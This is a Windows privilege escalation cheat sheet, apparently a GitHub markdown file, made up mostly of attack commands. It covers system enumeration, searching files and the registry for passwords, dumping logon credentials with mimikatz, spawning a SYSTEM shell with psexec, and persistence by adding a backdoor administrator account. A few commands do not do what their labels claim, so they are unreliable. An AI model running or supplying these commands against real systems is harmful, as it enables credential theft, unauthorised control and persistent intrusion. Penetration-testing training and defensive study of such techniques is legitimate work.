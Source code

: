 
# Windows Privilege Escalation Guide

## 1. Enumeration (Know Your Environment)

- **System Information**:
  ```powershell
  systeminfo                  # Get detailed system information  
  hostname                    # Display the hostname  
  whoami                      # Current user  
  whoami /priv                # User privileges  
  ```

- **Network Information**:
  ```powershell
  ipconfig /all               # Network interfaces and details  
  netstat -ano                # Active network connections and listening ports  
  arp -a                      # View the ARP table  
  ```

- **User and Group Info**:
  ```powershell
  net user                    # List all users  
  net localgroup administrators  # Check administrators group  
  ```

---

## 2. Search for Weak File Permissions

- **Find Accessible Files**:
  ```powershell
  icacls C:\path\to\file    # View file permissions  
  ```

- **Search for Writable Directories**:
  ```powershell
  dir /s /b | findstr /i /c:"writable"  
  ```

- **Find Sensitive Files**:
  ```powershell
  findstr /si "password" *.txt *.config *.ini  
  ```

---

## 3. Misconfigurations in Scheduled Tasks

- **List Scheduled Tasks**:
  ```powershell
  schtasks /query /fo LIST /v  
  ```

- **Check for Writable Scripts**:
  - If a script in a scheduled task is writable, inject malicious commands to escalate privileges.

---

## 4. Misconfigured Services

- **List Services**:
  ```powershell
  sc query state= all  
  ```

- **Find Services Running as SYSTEM**:
  ```powershell
  wmic service where "state='running'" get name,displayname,startmode  
  ```

- **Check for Writable Services**:
  - Use tools like `accesschk` to identify writable services:
    ```
    accesschk.exe -uwcqv "ServiceName"  
    ```

---

## 5. Vulnerable Applications

- **List Installed Programs**:
  ```powershell
  wmic product get name,version,vendor  
  ```

- **Check Versions**:
  - Compare installed versions with public CVE databases to identify vulnerabilities.

---

## 6. Exploiting Credentials

- **Search for Stored Credentials**:
  ```powershell
  reg query HKCU /f "password" /t REG_SZ /s  
  reg query HKLM /f "password" /t REG_SZ /s  
  ```

- **Dump Passwords**:
  - Use `mimikatz` to extract credentials:
    ```
    mimikatz.exe  
    privilege::debug  
    sekurlsa::logonpasswords  
    ```

---

## 7. Abusing SUDO-Like Commands

- **PowerShell Execution**:
  - If execution policy allows:
    ```powershell
    Start-Process powershell -Verb runAs  
    ```

- **Runas Command**:
  ```cmd
  runas /user:Administrator cmd  
  ```

---

## 8. Kernel Exploits

- **Check OS and Patch Level**:
  ```powershell
  systeminfo | findstr /B /C:"OS Name" /C:"OS Version"  
  ```

- **Search for Exploits**:
  - Use online resources like Exploit-DB to find kernel-level vulnerabilities for the specific OS version.

---

## 9. Tools for Automation

- **WinPEAS** (Privilege Escalation Script):
  ```cmd
  winpeas.exe  
  ```

- **PowerUp** (PowerShell Script for Privilege Escalation):
  ```powershell
  Import-Module .\PowerUp.ps1  
  Invoke-AllChecks  
  ```

- **SharpUp** (C# Privilege Escalation Tool):
  ```cmd
  SharpUp.exe  
  ```

## 10. Post-Exploitation Tips

- **Open a SYSTEM Shell**:
  ```cmd
  psexec.exe -s -i cmd.exe  
  ```

- **Persistence**:
  - Create a new admin user:
    ```cmd
    net user hacker password123 /add  
    net localgroup administrators hacker /add  
    ```

